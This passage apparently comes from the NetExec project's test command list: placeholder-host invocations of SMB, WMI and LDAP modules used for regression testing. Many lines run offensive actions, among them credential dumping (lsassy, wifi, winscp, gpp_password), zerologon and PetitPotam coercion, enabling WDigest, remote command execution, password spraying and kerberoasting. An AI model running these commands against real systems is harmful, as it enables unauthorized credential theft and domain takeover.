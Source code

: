 # netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M spider_plus -o MAX_FILE_SIZE=100
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M spooler
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M teams_localdb
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M test_connection -o HOST=localhost
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M uac
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M veeam
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M vnc
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M vnc -o NO_REMOTEOPS=True
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M wdigest -o ACTION=enable
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M wdigest -o ACTION=disable
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M web_delivery -o URL=localhost/dl_cradle
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M webdav
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M webdav -o MSG="Message: {}"
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M wifi
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M winscp
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M zerologon
# test for multiple modules at once
netexec smb TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M spooler -M petitpotam -M zerologon -M nopac -M enum_av -M enum_dns -M gpp_autologin -M gpp_password -M lsassy -M impersonate -M install_elevated -M ioxidresolver -M ms17-010 -M ntlmv1 -M runasppl -M uac -M webdav -M wifi -M coerce_plus
##### SMB Anonymous Auth
netexec smb TARGET_HOST -u '' -p '' -M zerologon
netexec smb TARGET_HOST -u '' -p '' -M petitpotam
##### SMB Auth File
netexec smb TARGET_HOST -u TEST_USER_FILE -p TEST_PASSWORD_FILE --no-bruteforce
netexec smb TARGET_HOST -u TEST_USER_FILE -p TEST_PASSWORD_FILE --no-bruteforce --continue-on-success
netexec smb TARGET_HOST -u TEST_USER_FILE -p TEST_PASSWORD_FILE
##### SMB Hash File
netexec smb TARGET_HOST -u LOGIN_USERNAME -H tests/data/test_hashes.txt
netexec smb TARGET_HOST -u TEST_USER_FILE -H tests/data/test_hashes.txt
##### WMI
netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS # need an extra space after this command due to regex
netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --wmi-namespace root/cimv2
netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -x whoami
##### WMI Modules
netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M ioxidresolver
netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M spooler
netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M zerologon 
netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M enum_dns
netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M get_netconnections
#netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M rdp -o ACTION=enable
#netexec wmi TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS -M rdp -o ACTION=disable
##### LDAP
netexec {DNS} ldap TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS
netexec ldap TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --users
netexec ldap TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --groups
netexec ldap TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --get-sid
netexec ldap TARGET_HOST -u LOGIN_USERNAME -p '' --asreproast /tmp/output.txt
netexec ldap TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --kerberoasting /tmp/output2.txt
netexec ldap TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --trusted-for-delegation
netexec ldap TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --admin-count
netexec ldap TARGET_HOST -u LOGIN_USERNAME -p LOGIN_PASSWORD KERBEROS --gmsa